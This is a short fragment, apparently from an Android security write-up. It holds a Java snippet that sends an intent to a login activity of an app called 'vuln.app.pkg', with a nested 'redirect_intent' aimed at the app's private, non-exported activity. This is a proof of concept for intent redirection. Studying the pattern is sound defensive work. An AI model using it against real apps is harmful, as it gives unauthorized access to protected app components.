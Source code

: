     Intent intent = new Intent("vuln.app.pkg.LOGIN");
    Intent redirIntent = new Intent();
    redirIntent.setComponent(new ComponentName("vuln.app.pkg", "vuln.app.pkg.PrivateActivity"));
    intent.putExtra("redirect_intent", redirIntent);
    startActivity(intent);